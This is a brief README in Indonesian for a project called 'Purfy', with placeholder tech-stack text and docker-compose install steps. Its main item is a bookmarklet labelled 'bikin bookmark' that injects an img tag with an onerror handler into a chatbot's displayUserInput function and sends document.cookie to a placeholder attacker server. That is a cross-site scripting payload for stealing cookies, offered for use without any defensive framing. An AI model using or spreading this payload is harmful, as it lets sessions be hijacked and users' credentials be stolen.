 # 📦 Purfy

bikin bookmark:
javascript:CHATBOT.displayUserInput('<img src="x" onerror="new Image().src=\'https://SERVER-GWEH?cookie=\'+document.cookie">');

## 🛠️ Teknologi yang Digunakan

- Tools: Contoh: `Grafana`, `Docker`

## 📦 Instalasi

Clone repositori ini dan install dependensi-nya:

```bash
git clone https://github.com/utatau/purfy.git
cd purfy
docker compose up -d
```
